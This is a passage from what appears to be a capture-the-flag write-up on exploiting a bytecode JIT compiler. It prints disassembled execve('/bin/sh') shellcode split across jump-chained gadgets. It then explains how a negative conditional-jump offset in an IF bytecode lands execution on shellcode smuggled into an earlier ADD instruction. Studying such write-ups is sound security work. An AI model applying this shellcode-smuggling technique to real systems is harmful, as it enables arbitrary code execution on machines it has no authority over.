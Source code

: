 ```asm
   0x7ffff7f76086:	push   rax
   0x7ffff7f76087:	xor    rdx,rdx
   0x7ffff7f7608a:	jmp    0x7ffff7f760c5

   0x7ffff7f760c5:	nop
   0x7ffff7f760c6:	mov    eax,0x68732f
   0x7ffff7f760cb:	jmp    0x7ffff7f76106

   0x7ffff7f76106:	nop
   0x7ffff7f76107:	nop
   0x7ffff7f76108:	shl    rax,0x20
   0x7ffff7f7610c:	jmp    0x7ffff7f76147

   0x7ffff7f76147:	add    rax,0x6e69622f
   0x7ffff7f7614d:	jmp    0x7ffff7f76188

   0x7ffff7f76188:	nop
   0x7ffff7f76189:	nop
   0x7ffff7f7618a:	push   rax
   0x7ffff7f7618b:	xor    rax,rax
   0x7ffff7f7618e:	jmp    0x7ffff7f761c9

   0x7ffff7f761c9:	nop
   0x7ffff7f761ca:	nop
   0x7ffff7f761cb:	nop
   0x7ffff7f761cc:	nop
   0x7ffff7f761cd:	push   rsp
   0x7ffff7f761ce:	pop    rdi
   0x7ffff7f761cf:	jmp    0x7ffff7f7620a

   0x7ffff7f7620a:	mov    ax,0x3b
   0x7ffff7f7620e:	syscall
``` 

## Jumping to the smuggled shellcode.  
Now that we have our shellcode written in a memory section with execution permissions, the 'only' thing left is to jump to it to execute it and get the shell.  
This was the challenging part of the challenge for me, and it took me a long time to find the bug that allowed me to execute the shellcode. In the end, I managed to do it as follows.  
The `IF` bytecode works as follows:  
```
IF
ADD 0xdeadbeef
ADD 0xdeadbeef
ENDIF
PRINT
```
In the previous example, what would happen is that when executing the `IF` statement, if the global variable `REGISTER` is not zero, the `ADD` instructions would be executed; otherwise, it would jump and execute the `PRINT`.  
Since all of this needs to be translated into shellcode, it is necessary to count the number of instructions within the `IF` block before it can be written.  
In the previous case, there are two instructions within the `IF` block, and knowing that each bytecode will occupy 0x41 bytes, this will be translated into a conditional jump of `0x41 * 3 bytes`.  
This doesn't help us much because jumping in multiples of 0x41 bytes is ineffective, as it will jump to the beginning of the `mov` instruction and not to the shellcode it contains.  
The trick is that the argument of this conditional jump is a signed integer, so if we manage to write a value like 0xffffffc3 there, it would translate to a negative value of 61 bytes. This means it would jump backward 61 bytes, and by coincidence, this jump is exactly the right distance to jump to a smuggled shellcode that we have in a previous `ADD`.  